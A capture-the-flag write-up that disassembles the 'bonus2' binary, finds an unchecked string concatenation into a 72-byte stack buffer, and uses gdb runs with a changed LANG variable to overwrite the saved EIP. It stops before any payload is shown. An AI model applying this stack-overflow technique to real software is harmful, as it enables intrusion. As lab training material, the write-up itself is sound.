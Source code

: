 ## bonus2

The program in `bonus2` expects two arguments otherwise the program exit properly. <br> `0x08048538 <+15>:	cmp    DWORD PTR [ebp+0x8],0x3`<br>
The `main()` function reserves space for a *buffer[0x50]* `0x08048548 <+31>:	lea    ebx,[esp+0x50]` where `40 bytes` from the first argument __argv[1]__ will be copied and
another `32 bytes` from the second arguments __argv[2]__ will be also copied right after the first <br> `40 bytes` `0x08048594 <+107>:	add    eax,0x28`. <br>
Next a call to `getenv()` wiht the the parameter `"LANG"` is made and the the value return by `getenv()` is stored at `esp+0x9c` then two calls to `memcmp()` are
made against this value, the first will check if the string is equal to *fi* if they are equal a *global* variable stored at `0x8049988` will be set to `0x1` if 
the strings doesn't match the second call to `memcmp()` will be made this time with the string *nl* and if they are equal the *global* variable will be set `0x2`
if none of the cases are true the *global* variable as a default value of `0x0`. <br>
Next a call to the function `greetuser(buffer[0x50])` will be made.<br>
The function `greetuser()` also reserves spaces for a *greetbuffer[0x48]* and then the function will precede to check the value of the *global* variable
` 0x0804848a <+6>:	mov    eax,ds:0x8049988` against `0x2, 0x1, 0x0` depending on the result the function will `strncpy()` a *greeting* message to the *greetbuffer[0x48]* with the *LANG* that is set *(remember this, it will come in handy later)*.
Right after that the parameters we suplied to the program will be concatenated to the *greetbuffer[0x48]* `=> 0x0804850a <+134>:	lea    eax,[ebp+0x8]` <br>
*__Time to get dirty little boy!__* <br>
here smells some exploit, the `greetuser()` function is concatenating what we pass to the program as parameter to a *buffer[72]* without checking, what if we overwrite the main *eip* that is sleeping on the stack ? let's check if we can touch it :p <br>
We know that in `main()` two calls to `strncpy()` are made for copying `40 bytes` from the first argv and `32 bytes` from the second argv what gives us `72 bytes` plus the greeting that is copied into the *greetbuffer[72]* before the concatenation, it should be enough to write past the *greetbuffer[72]*, we will start with that.
```
(gdb) r AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB

Program received signal SIGSEGV, Segmentation fault.
0x08004242 in ?? ()

(gdb) i r
eax            0x4f	79
ecx            0xffffffff	-1
edx            0xb7fd28b8	-1208145736
ebx            0xbffff630	-1073744336
esp            0xbffff5e0	0xbffff5e0
ebp            0x42424242	0x42424242
esi            0xbffff67c	-1073744260
edi            0xbffff62c	-1073744340
eip            0x8004242	0x8004242
eflags         0x210282	[ SF IF RF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
```
As we can see the `eip` is being overwrote by only two bytes and the greeting being added to the begining is in english, lets check our `env` indeed
```
[...]
PWD=/home/user/bonus2
LANG=en_US.UTF-8
SHLVL=5
HOME=/home/user/bonus2
[...]
```
Let's check the other greeting lengh
```
0x080484ba <+54>:	mov    edx,0x8048717 (I used a little program with a printf as I could not see the string)
(gdb) x/s 0x8048717
0x8048717:	 "Hyv\303\244\303\244 p\303\244iv\303\244\303\244 "
⇒ ./a.out 
Hyvää päivää (13 bytes) there's a space at the end
0x080484e9 <+101>:	mov    edx,0x804872a
(gdb) x/s 0x804872a
0x804872a:	 "Goedemiddag! " (13 bytes) idem
```
lets try to change our `env` it doesn't matter which we choose both are `13 bytes` long
```
:~$ export LANG="fi"
~$ env
[...]
PWD=/home/user/bonus2
LANG=fi
SHLVL=5
HOME=/home/user/bonus2
LC_TERMINAL_VERSION=3.3.12
LOGNAME=bonus2
[...]
```
Now let's re run the program again
```
(gdb) r AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
Starting program: /home/user/bonus2/bonus2 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB

Hyvää päivää AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
```
Great we have it, now let's prepare the payload
